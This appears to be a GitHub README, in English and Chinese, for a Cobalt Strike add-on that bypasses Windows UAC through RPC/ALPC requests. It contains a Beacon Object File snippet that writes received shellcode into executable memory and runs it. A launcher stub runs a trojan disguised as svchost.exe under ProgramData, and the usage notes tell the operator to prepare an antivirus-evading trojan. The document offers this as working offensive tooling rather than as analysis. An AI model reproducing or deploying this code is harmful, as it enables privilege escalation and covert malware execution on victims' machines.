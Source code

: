 # UAC Bypass 

This amazing trick by James Forshaw was released in 2019 [Project Zero - Calling Local Windows RPC Servers from .NET](https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html) allow you to bypass UAC using only 2 RPC requests instead of DLL hijack. Basically rewritten from [hfiref0x/UACME](https://github.com/hfiref0x/UACME).

Tested works well on Windows 11 :)

魔改自：https://github.com/aaaddress1/PR0CESS/tree/main/UACBypassJF_RpcALPC

## BOF

编写BOF在当前进程中执行Shellcode，没有spawn和inject高危操作产生，但会牺牲当前的beacon（注）。

```C
datap   parser;
LPBYTE  lpShellcodeBuffer = NULL;

DWORD   dwShellcodeBufferSize = 0;
LPVOID  pMem;
SIZE_T  bytesWritten = 0;
DWORD  dwThreadId = 0;

BeaconDataParse(&parser, buff, len);
lpShellcodeBuffer = (LPBYTE)BeaconDataExtract(&parser, (int*)(&dwShellcodeBufferSize));
pMem = VirtualAlloc(0, dwShellcodeBufferSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(GetCurrentProcess(), pMem, lpShellcodeBuffer, dwShellcodeBufferSize, &bytesWritten);
((void(*)())pMem)();
```



## RpcALPC

默认执行`C:\ProgramData\USOShared\svchost.exe`该程序，编写cna的时候会自动上传木马到这个文件，并重命名为`svchost.exe`。

```C
int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    if (FAILED(CoInitializeEx(NULL, COINIT_APARTMENTTHREADED))) return -1;
    wchar_t buff[256] = L"C:\\ProgramData\\USOShared\\svchost.exe";
    //MultiByteToWideChar(CP_ACP, 0, lpCmdLine, -1, buff, sizeof(buff) / sizeof(wchar_t));
    ucmDebugObjectMethod(buff);
}
```



## Usage

准备一个免杀木马，然后选择对应选项。

![image-20231122234837320](./assets/image-20231122234837320.png)

![image-20231122234858214](./assets/image-20231122234858214.png)

![image-20231122235225464](./assets/image-20231122235225464.png)

